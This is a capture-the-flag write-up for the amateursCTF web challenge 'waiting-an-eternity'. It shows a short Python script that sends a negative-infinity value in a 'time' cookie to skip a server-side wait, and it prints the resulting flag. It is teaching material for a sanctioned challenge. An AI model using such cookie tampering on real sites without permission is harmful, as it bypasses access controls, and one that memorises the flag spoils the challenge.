

# waiting-an-eternity

## Description
My friend sent me this website and said that if I wait long enough, I could get and flag! Not that I need a flag or anything, but I've been waiting a couple days and it's still asking me to wait. I'm getting a little impatient, could you help me get the flag?

https://waiting-an-eternity.amt.rs

## Solution
Let's check the website first because we don't have the source code for this challenge.


I try to check everything on this website and I got something interesting from the response of the web server. In `refresh` header we can see there's URL parameter of `secret-site`.
Let's check this by visiting this URL.


Now, let's search for additional information from this URL. In this URL there's a cookie called `time` which the value was the time from the server.



The value in cookie `time` shows the time in [Unix timestamp](https://www.unixtimestamp.com/) or also commonly called epoch. If the value of `time` is replaced by value that is greater than the current server time, then it will resulting a negative. But if we change the value of `time` with negative value of Unix timestamp then we'll got Unix timestamp value that are greater than the current Unix timestamp of the server. From this information, I can make a simple equation like this:

```
time = current server time - input time from user
```

If we look at the title of this challenge, it implies that we need to change the time to forever or we can said it's an infinite number. By using this Python code we can send a negative infinite number in cookie `time`.


```python
import requests
import math

url = 'https://waiting-an-eternity.amt.rs/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a'

infinity = -math.inf

res = requests.get(url, cookies={'time': str(infinity)})

print("Server response:", res.text)
```

After executing the Python code, I got this response from the server.


## Flag
`amateursCTF{im_g0iNg_2_s13Ep_foR_a_looo0ooO0oOooooOng_t1M3}`
